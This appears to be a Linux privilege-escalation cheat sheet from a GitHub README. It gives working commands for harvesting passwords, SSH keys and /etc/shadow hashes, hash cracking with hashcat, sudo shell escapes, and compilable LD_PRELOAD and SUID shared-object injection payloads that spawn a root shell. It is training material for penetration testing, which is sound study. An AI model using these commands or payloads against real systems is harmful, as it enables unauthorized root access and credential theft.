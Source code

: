 # Linux Privesc

- [1. Search Stored Passwords from Config Files](#1-search-stored-passwords-from-config-files)
- [2. Fetching Passwords from /etc/shadow](#2-fetching-passwords-from-etcshadow)
- [3. Escalate Privileges with SSH Key](#3-escalate-privileges-with-ssh-key)
- [4. Shell Escaping via Sudo](#4-shell-escaping-via-sudo)
- [5. Using LD PRELOAD](#5-Using-LD-PRELOAD)
- [6. SUID Shared Object Injection](#6-SUID-Shared-Object-Injection)

## 1. Search Stored Passwords from Config Files
### Commands to Find Passwords and SSH Keys
- Search for all config files:
  ```sh
  find / -type f -name "config" 2>/dev/null
  ```
- Search for files containing the word "password":
  ```sh
  find / -type f -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for config files containing the word "password":
  ```sh
  find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for SSH keys:
  ```sh
  find / -name id_rsa 2>/dev/null
  ```
- Search command history for "password":
  ```sh
  history | grep -i "password"
  ```

## 2. Fetching Passwords from /etc/shadow
### Steps to Extract and Crack Password Hashes
1. Extract the `/etc/passwd` file:
   ```sh
   cat /etc/passwd
   ```
   Save output to `passwd.txt`.
2. Extract the `/etc/shadow` file:
   ```sh
   cat /etc/shadow
   ```
   Save output to `shadow.txt`.
3. Combine `passwd.txt` and `shadow.txt` into an unshadowed file:
   ```sh
   unshadow passwd.txt shadow.txt > unshadow.txt
   ```
4. Crack the hashes using Hashcat with the `rockyou.txt` wordlist:
   ```sh
   hashcat -m 1800 unshadow.txt rockyou.txt -O
   ```

## 3. Escalate Privileges with SSH Key
### Steps to Gain Root Access Using SSH Keys
1. Locate `authorized_keys` or `id_rsa` files:
   ```sh
   find / -name authorized_keys 2>/dev/null
   ```
   or
   ```sh
   find / -name id_rsa 2>/dev/null
   ```
2. Save the `id_rsa` file to your machine.
3. Set appropriate permissions for the `id_rsa` file:
   ```sh
   chmod 400 id_rsa
   ```
4. Attempt to access the root shell on the target machine:
   ```sh
   ssh -i id_rsa root@<target-ip>
   ```

## 4. Shell Escaping via Sudo
### Steps to Escalate Privileges Using Sudo
1. Check for sudo permissions:
   ```sh
   sudo -l
   ```
   
![Screenshot From 2025-05-09 22-29-02](https://github.com/user-attachments/assets/0c5884f1-c62c-4203-a7b6-7e503ae49065)<br>

   Output will show commands that can be run as root without a password.
   
1. Exploit passwordless sudo access to gain a root shell using one of the following:

   ```sh
   sudo find /bin -name nano -exec /bin/sh \;
   sudo awk 'BEGIN {system("/bin/sh")}'
   echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
   sudo vim -c '!sh'
   ```
2. Abusing Intended Functionality

   ```sh
   sudo apache2 -f /etc/shadow
   ```
Here, we're telling Apache (with root privileges) to treat /etc/shadow as its configuration file — which is not a valid Apache config, so Apache will try to parse it and fail, which will throw an error message with the hash from /etc/shadow. Now, save the hash in a file hash.txt and we can crack this hash using hashcat or john.
<br>

![Screenshot From 2025-05-09 23-08-43](https://github.com/user-attachments/assets/39d9ca62-ee96-48a8-86cb-fcede471e40e)

## 5. Using LD PRELOAD

1. Type `nano x.c` and paste the code and save:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Now type:
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```

## 6. Privilege Escalation via SUID

Make note of all the SUID binaries `suid-so` .

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot From 2025-05-10 00-49-01](https://github.com/user-attachments/assets/4707d42c-8710-4a46-b854-f7630e3ffcaf)

**SUID Shared Object Injection**

1. Search if there any .so file is missing from a writable directory. `/home/user/.config/libcalc.so`

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Screenshot From 2025-05-10 00-45-04](https://github.com/user-attachments/assets/5741fd84-80c5-4bd3-9651-930316755759)

2. Now create a `libcalc.c` file under the `/home/user/.config/` directory and paste the code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
3. Compile and run the file:
```sh
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

**SUID Environment Variables**

1. Search if there is any env variables `suid-env`

```sh
strings /usr/local/bin/suid-env
```

---

# short

getcap -r / 2>/dev/null (capabilities)

cat /etc/crontab (cron)

cat /etc/exports (nfs root)
